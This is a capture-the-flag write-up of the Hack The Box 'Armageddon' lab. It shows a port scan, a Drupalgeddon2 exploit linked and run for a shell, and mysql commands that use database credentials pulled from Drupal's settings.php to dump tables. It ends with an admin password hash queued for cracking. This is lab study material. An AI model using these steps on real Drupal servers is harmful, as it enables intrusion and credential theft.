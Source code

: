 # Armageddon
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c0898996-3c1f-46ef-a4dd-fcb8960b6b3f)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.233 --min-rate 1000       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-20 04:49 PDT
Nmap scan report for 10.10.10.233
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82c6bbc7026a93bb7ccbdd9c30937934 (RSA)
|   256 3aca9530f312d7ca4505bcc7f116bbfc (ECDSA)
|_  256 7ad4b36879cf628a7d5a61e7060f5f33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to  Armageddon |  Armageddon
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.15 seconds
```

1. Based from the nmap results, the machine runs a web application and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8338bf80-93a6-4b1e-a6fe-1f141d0fba93)


2. Noticed the webapp using **Drupal 7** CMS.

> DRUPAL 7 EXPLOIT DOCUMENTATION --> https://www.exploit-db.com/exploits/44449

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/70860b11-e9cc-4653-bab6-ebb1f17e8230)


3. Great! Based from the documentation and the chall's title. We seems in the correct approach.
4. Found a 2 github POCs we can use here.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f04f5a98-3fea-46d2-aa49-2a997e20f43e)


5. I used the most starred github repo --> https://github.com/dreadlocked/Drupalgeddon2
6. Let's clone the repo and run the ruby solver.

> RESULT - Got shell!

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/27058e5d-9011-424b-a860-03ac10c85aba)


7. Interesting! The shell we got is not fully interactive.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/00a017e8-1ef3-4dde-83a8-e9c6ea111ca3)


8. Did a small research about drupal. Turns out there should be a creds we can access at this path --> sites/default/settings.php

```
https://serverpilot.io/docs/where-to-find-your-database-credentials-in-drupal/
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dc3de778-0eed-4eca-a640-26be6196fe3f)



> RESULT

```
armageddon.htb>> ls sites/default/
default.settings.php
files
settings.php
armageddon.htb>> 
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4e347ec5-daba-4cf5-935e-7f48a66ea070)


9. Found a cred we can use to login to mysql --> drupaluser:CQHEy@9M*m23gBVj

> RESULT

```
armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases;'
Database
information_schema
drupal
mysql
performance_schema
armageddon.htb>>
```

10. Awesome! Let's see tables inside `Drupal` database.

```
armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'use drupal; show tables;'
Tables_in_drupal
actions
authmap
batch
block
block_custom
block_node_type
block_role
blocked_ips
cache
cache_block
cache_bootstrap
cache_field
cache_filter
cache_form
cache_image
cache_menu
cache_page
cache_path
comment
date_format_locale
date_format_type
date_formats
field_config
field_config_instance
field_data_body
field_data_comment_body
field_data_field_image
field_data_field_tags
field_revision_body
field_revision_comment_body
field_revision_field_image
field_revision_field_tags
file_managed
file_usage
filter
filter_format
flood
history
image_effects
image_styles
menu_custom
menu_links
menu_router
node
node_access
node_comment_statistics
node_revision
node_type
queue
rdf_mapping
registry
registry_file
role
role_permission
search_dataset
search_index
search_node_links
search_total
semaphore
sequences
sessions
shortcut_set
shortcut_set_users
system
taxonomy_index
taxonomy_term_data
taxonomy_term_hierarchy
taxonomy_vocabulary
url_alias
users
users_roles
variable
watchdog
armageddon.htb>>
```

11. Let's select all column from **users** table.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e2bb6db5-eda3-48a2-b0df-385862f37025)


12. Found a username that should be our interest --> **brucetherealadmin**. But the password is hashed.
13. Hmm.. Let's try to crack it using **hashcat**.

```
brucetherealadmin:$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```

> CRACKING PASSWORD



